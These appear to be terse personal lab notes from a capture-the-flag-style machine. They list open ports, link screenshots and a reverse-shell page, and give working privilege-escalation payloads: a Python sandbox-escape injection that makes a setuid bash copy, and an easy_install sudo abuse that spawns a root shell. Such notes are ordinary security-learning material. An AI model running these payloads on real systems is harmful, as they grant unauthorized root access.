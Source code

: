 open ports
22
80 
![[Pasted image 20221203032843.png]]
![[Pasted image 20221203032812.png]]
![[Pasted image 20221203033630.png]]

[[Reverse Shells]]

https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes

```
__import__('os').system('cp /bin/bash .; chmod +s bash')
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo /usr/local/bin/easy_install $TF